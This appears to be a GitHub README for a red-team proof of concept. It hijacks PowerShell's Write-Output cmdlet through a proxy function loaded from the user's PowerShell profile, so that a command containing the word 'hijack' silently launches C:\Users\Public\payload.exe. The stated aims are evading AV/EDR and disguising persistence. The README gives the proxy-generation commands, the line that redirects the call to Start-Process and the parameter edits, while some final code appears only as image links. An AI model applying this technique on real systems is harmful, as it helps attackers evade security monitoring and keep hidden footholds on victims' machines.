







# Hijacking PowerShell commands: Masquerading persistence
This is a PoC to hijack PowerShell commands in order to bypass AV/EDR solutions in Red Team exercises. Although this technique can be used to hijack any PowerShell command, in this case I have used it to masquerade persistence on the system by Write-Output cmdlet hijacking.




## Summary
- [Introduction](#introduction)
  - [Talking about proxy functions](#proxy-functions)
  - [Talking about PowerShell profiles](#powershell-profiles)
- [PoC implementation](#poc-implementation)
  - [Generating proxy functions](#generating-proxy-functions)
  - [Modifying proxy function](#modifying-proxy-functions)
  - [Replacing original function](#replacing-original-function)
  - [Payload execution](#payload-execution)
  - [Persistence](#persistence)
- [References](#references)
- [Legal disclaimer](#legal-disclaimer)


## Introduction

### PowerShell profiles
According to Microsoft, a PowerShell profile is a script that runs when PowerShell starts. You can use the profile as a logon script to customize the environment. You can add commands, aliases, functions, variables, snap-ins, modules, and PowerShell drives. 

### Proxy functions
A proxy function is a wrapper function around a cmdlet (or another function). When we proxy a command, we get access to its parameters (which we can add or remove). We also get control over the command steppable pipeline, which is the three script blocks of a Windows PowerShell function: Begin, Process, and End.

## PoC Implementation
In this example, I will hijack Write-Output cmdlet to execute Start-Process cmdlet instead of the original command.

### Generating proxy functions
Firstly, what we have to do is generate the proxy function related to `Write-Output` cmdlet. For this, we will execute this code:

`$Function1 = New-Object System.Management.Automation.CommandMetaData (Get-Command Write-Output)`
`[System.Management.Automation.ProxyCommand]::Create($Function1) | Out-File -FilePath "C:\Users\Public\Write-Output.ps1"`

Obtaining a script like this:



Then, we are going to generate the proxy function related to `Start-Process`:

`$Function2 = New-Object System.Management.Automation.CommandMetaData (Get-Command Start-Process)`
`[System.Management.Automation.ProxyCommand]::Create($Function2) | Out-File -FilePath "C:\Users\Public\Start_Process.ps1"`


### Modifying proxy functions
As we can see, we obtain a function with the same structure. However, we can see that they have some differences. The first one is that both functions receive different parameters.



The other difference is this line: 



If we replace this line in Write-Output proxy function, changing this line:

`$wrappedCmd = $ExecutionContext.InvokeCommand.GetCommand('Microsoft.PowerShell.Utility\Write-Output',
[System.Management.Automation.CommandTypes]::Cmdlet)`

For this line:

`$wrappedCmd = $ExecutionContext.InvokeCommand.GetCommand('Microsoft.PowerShell.Management\Start-Process', [System.Management.Automation.CommandTypes]::Cmdlet)`

`Start-Process` will be executed instead of the original `Write-Output`. However, we have two problems in this case. 

a) The first one is that the parameters related to Write-Output cmdlet are not the same of the Start-Process cmdlet. So we will have to modify the variable $PSBoundParameters (that is a hashtable). By adding this line the problem is solved:

```
$PSBoundParameters.Remove('InputObject')
$PSBoundParameters.Remove('NoEnumerate')
$PSBoundParameters.Add('PSPath', 'C:\Users\Public\payload.exe')
```

b) The second problem is that we have replaced the function `Write-Output` completely, so the original `Write-Output` will never be executed. For solving this problem, what I have done is add an if statement to execute the hijacking only in certain conditions. In this case, the hijacking will be executed only if the Write-Output call have the word 'hijack' in the `$InputObject` parameter.

```
if ($PSBoundParameters.InputObject[0] -clike '*hijack*'){

	Execute Hijacking

}else{

	Execute original Write-Output
}
```

The final code is this (consider include the code in a function with the name `Write-Output`, by default the proxy function doesn´t generate it):




### Replacing original function
Now, what we have to do is replace the original `Write-Output` function by our modified proxy function. In PowerShell, when we import a function with the same name of a cmdlet, the imported function will replace the original cmdlet. However, we need to import this modified proxy function in every PowerShell session. For this, we will use PowerShell profiles. Firstly, we check if there is any existing profile in the system in order to modify it, if not, we create one and we write the modified proxy function in it:




Storing a Base64 in a PowerShell script is not a good idea to bypass EDR, but in this case, I have done it for code simplicity


### Payload execution
Once we have a profile created with our modified proxy function inside it, each time that PowerShell starts, our `Write-Output` will replace the original cmdlet, so if we execute a Write-Output with our magic word, the payload will be executed:




### Persistence
Finally, the only thing left to do is establish persistence on the system with the method desired. The only thing that you have to do is execute this line, that seems to be a simple Write-Output. However, it is masquerading persistence on the system.

`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -command "Write-Output 'hijack prueba'"`


## References

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.3

https://devblogs.microsoft.com/scripting/proxy-functions-spice-up-your-powershell-core-cmdlets/

https://learn.microsoft.com/en-us/dotnet/api/system.management.automation.steppablepipeline?view=powershellsdk-7.3.0


## Legal disclaimer
This project has been conducted as research for educational and ethical purposes. Using this technique to attack organizations without prior consent is illegal. I am not responsible for the inappropriate or illegal actions made with the information exposed in this repository.


